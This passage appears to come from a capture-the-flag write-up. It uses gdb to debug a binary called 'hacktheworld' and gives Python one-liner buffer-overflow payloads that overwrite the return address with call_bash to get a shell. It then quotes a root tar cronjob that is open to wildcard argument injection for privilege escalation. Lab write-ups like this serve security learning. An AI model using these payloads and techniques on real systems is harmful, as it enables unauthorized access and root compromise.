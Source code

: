 Now continue the execution with c command

    (gdb) c
    Continuing.
    Who do you want to hack? 
    We are Anonymous.
    We are Legion.
    We do not forgive.
    We do not forget.
    [Message corrupted]...Well...done.

    Breakpoint 2, 0x00000000004006d0 in call_bash ()
    # we are hitting the second breakpoint

If we run now with single-step mode with command s

    (gdb) s
    Single stepping until exit from function call_bash,
    which has no line number information.
    __libc_system (line=0x400803 "/bin/sh") at ../sysdeps/posix/system.c:180
    180     ../sysdeps/posix/system.c: No such file or directory.
    (gdb)

We can see “/bin/sh” is being called. So the shell must have closed.

On running that we can see the call_bash function is executed but we didn’t get a shell. [Here](https://youtu.be/HSlhY4Uy8SA?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&t=626) Live Overflow explains why this we didn’t get the shell.

So in order to overcome that, the command looks like

    $ (python -c "print 'A'*72+'\x57\x06\x40\x00\x00\x00\x00\x00'"; cat)  | ./hacktheworld

![](https://cdn-images-1.medium.com/max/2000/1*Ez3wzMv1wDDZQb2w-JbaJw.png)

Still no shell.

Consulted this with my friend, and he suggested me to call the function twice. In order to do that, we need to replace the return address of the function in the stack with the address of call_bash. For that our payload becomes

    $ (python -c "print 'A'*72+'\x57\x06\x40\x00\x00\x00\x00\x00\x57\x06\x40\x00\x00\x00\x00\x00'"; cat)  | ./hacktheworld

On executing this we get a shell with user spooky.

![](https://cdn-images-1.medium.com/max/2000/1*03k9gnN-mXzj1a93tqWHiA.png)

Now we need to escalate privilege to gain root. From the cronjob we know that the system is backing up the spooky user’s home directory with root user running the tar command

    */1 *   * * *   root    cd /home/spooky && tar -zcf /var/backups/spooky.tgz *

Googling privilege escalation with tar, I found [this](https://medium.com/@int0x33/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e) which is similar to our case.
